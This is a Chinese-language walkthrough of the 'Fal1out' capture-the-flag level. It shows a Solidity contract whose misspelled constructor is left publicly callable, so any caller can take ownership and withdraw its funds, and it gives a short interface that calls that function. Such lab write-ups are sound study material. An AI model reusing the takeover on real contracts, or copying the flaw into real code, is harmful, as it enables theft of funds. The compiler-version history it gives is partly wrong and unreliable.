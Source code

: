 # Fal1out

Fal1out 這一關要求我們成爲目標合約的owner,考驗的是舊版solidity的一個特性那便是關於合約的constructor name。我們先看一下合約的代碼。

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
``` 

## 代码分析
合約代碼中，我們可以看到注釋著constructor的位置：
```
/* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```
如果是新學習solidity的同學可能會覺得很奇怪，這個明明不是定義constructor的語法，但爲什麽這裏注釋constructor呢。這裏要提到一個歷史沿革的問題。在solidity ^0.6.0中，當我們要定義一個合約的constructor，我們需要定義一個與合約名完全相同的function，這個function便是constructor。但到了soldity ^0.8.0之後，定義constructor有了更加明確的寫法，兩者的大致區別如下：
```
pragma solidity ^0.6.0;

contract Foo {
    function Foo () public {
        // constructor
    }
}
```
```
pragma solidity ^0.8.0;

contract Foo {
    constructor () public {
        // constructor
    }
}
```
瞭解了這一點以後，讓我們你回過頭去看代碼，這時我們可以發現代碼中的constructor命名并沒有做到和合約名相同。合約名為`Fallout`, 而constructor名被定義爲了`Fal1out`。這就意味著我們可以通過調用Fal1out來對owner進行修改。


## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Fallout {
    function Fal1out() external payable;
}
```

## 攻击过程
1. 使用編譯後的代碼與已經部署的合約進行交互，調用Fal1out()，即完成攻擊。